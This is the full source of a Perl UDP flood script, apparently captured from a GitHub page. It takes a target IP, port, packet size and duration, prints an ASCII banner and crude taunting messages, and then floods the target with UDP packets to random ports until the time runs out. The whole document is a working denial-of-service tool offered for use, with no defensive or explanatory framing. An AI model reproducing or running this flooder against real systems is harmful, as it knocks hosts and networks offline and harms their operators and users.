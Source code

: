 [#!/usr/bin/perl

use Term::ANSIColor qw(:constants);
    $Term::ANSIColor::AUTORESET = 2;

##
# VapeDaddy 
##

use Socket;
use strict;

my ($ip,$port,$size,$time) = @ARGV;

my ($iaddr,$endtime,$psize,$pport);

$iaddr = inet_aton("$ip") or die "Cannot resolve hostname $ip\n";
$endtime = time() + ($time ? $time : 100);
socket(flood, PF_INET, SOCK_DGRAM, 17);

print BOLD RED<<EOTEXT;

MMMMMMMMMMMMMMMMMMMMM                              MMMMMMMMMMMMMMMMMMMMM
 `MMMMMMMMMMMMMMMMMMMM           N    N           MMMMMMMMMMMMMMMMMMMM'
   `MMMMMMMMMMMMMMMMMMM          MMMMMM          MMMMMMMMMMMMMMMMMMM'  
     MMMMMMMMMMMMMMMMMMM-_______MMMMMMMM_______-MMMMMMMMMMMMMMMMMMM    
      MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM    
      MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM    
      MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM    
     .MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM.    
    MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM  
                   `MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM'                
                          `MMMMMMMMMMMMMMMMMM'                    
                              `MMMMMMMMMM'                              
                                 MMMMMM                         
                                  MMMM                                  
                                   MM                                  


EOTEXT

print "MemeCFW and The Bat Dropped Yo Shit $ip " . ($port ? $port : "Sucking The Clit") . " With " . 
  ($size ? "$size-Slammed" : "65500") . "Bots" . 
  ($time ? " for $time seconds" : "") . "\n";
print "Stop NULLING With Ctrl-C\n" unless $time;
 
for (;time() <= $endtime;) {
  $psize = $size ? $size : int(rand(1024-64)+64) ;
  $pport = $port ? $port : int(rand(65500))+1;
 
  send(flood, pack("a$psize","flood"), 0, pack_sockaddr_in($pport, $iaddr));}
](https://github.com/akubey/akubey.git)

